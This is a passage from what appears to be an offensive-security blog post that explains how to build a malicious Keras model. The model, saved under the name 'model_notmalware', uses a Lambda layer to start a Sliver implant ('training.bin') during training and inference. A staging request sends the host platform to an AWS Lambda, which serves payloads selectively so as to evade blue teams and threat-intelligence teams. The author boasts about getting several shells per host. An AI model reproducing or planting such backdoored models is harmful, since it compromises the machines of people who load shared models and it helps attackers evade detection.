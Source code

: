 Finally, continue with the model code. In its simplest form, you can just compile this and have a small malicious model: 

```
train(1) 
inputs = keras.Input(shape=(1,))
outputs = keras.layers.Lambda(train)(inputs) 
model = keras.Model(inputs, outputs)
model.compile(optimizer="adam", loss="mean_squared_error")

model.save("model_notmalware") 
``` 

Here it is in action:
<iframe width="560" height="315" src="https://www.youtube.com/embed/ghG5BFNC6w0" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe> 

In this vid, you see the model successfully train, all the layers and outputs match expectations, but it kicked off a process, `training.bin` in the background. 

`training.bin` is simply a `sliver` linux or mac implant, that has its logic controlled by the callback, discussed in the next segment. 

When structured in this way, the malicious model executes in both training *and* inference, for maximum effect, in fact, during training or inference, you can expect a minimum of 5 shells per host as the architecture code runs with each epoch. :D  This is especially great, since linux shells can be pretty flakey, its nice to have extra. xD

The repo has some full pocs without comments and breakdowns, and some more ‘complete’ or fleshed out models that aren’t so simple. 


## Limiting the spread of your attack 
At this point, we reach a new problem, we need to be careful who and were this implant detonates. 


I use staging code to complicate detections, evade blue teams and avoid accidentally serving full implants to anyone.
When we

 ```r = requests.get("https://lambda.on.aws/", headers={'X-Plat': sys.platform})```,

 what we are doing is sending the system architecture (mac, linux, etc) to a AWS lambda, which decides based on the IP range of the incoming request whether to serve it the mac, linux or no payload at all. 

If you’re just bug bounty hunting, you can skip this and just dump something like env vars, which will prove sensitive data exfil/codex.  
Because I am not a full time bug bounty hunter, and like taking things to the nth, I usually took the time to import my target's IP range into my scope.

**Here’s a sample from the code on the lambda, to show the logic** 

```
#since this is on Hugging Face, we don’t want poor randoms to execute it, or to make it too easy for threat intelligence teams:
